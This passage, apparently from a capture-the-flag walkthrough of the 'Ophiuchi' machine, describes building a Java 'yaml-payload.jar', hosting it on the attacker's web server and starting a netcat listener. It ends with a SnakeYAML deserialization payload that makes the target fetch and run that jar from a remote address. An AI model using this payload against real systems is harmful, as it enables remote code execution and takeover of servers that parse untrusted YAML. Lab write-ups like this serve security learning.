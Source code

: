 Now, as instructed by the repository, we'll compile the `AwesomeScriptEngineFactory.java` file and build our `yaml-payload.jar` file.  

![build](/wp-content/uploads/2021/07/ophiuchi/build.png)  
**Figure 5:** Compiling Java exploit and building `yaml-payload.jar`.

Since the snippet we'll be placing into the web application will pull `yaml-payload.jar` from a remote url, we'll copy the payload to our apache directory and make sure the server is running.

![copy_server](/wp-content/uploads/2021/07/ophiuchi/copy_server.png)  
**Figure 6:** Copy `yaml-payload.jar` to Apache's directory and start the server.

By placing the snippet below into the YAML parser, we'll download the payload we've just created and hosted, and execute it  on the victim machine (we must first not forget to start our netcat listener on port 8081)
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.3/yaml-payload.jar"]
  ]]
]
```
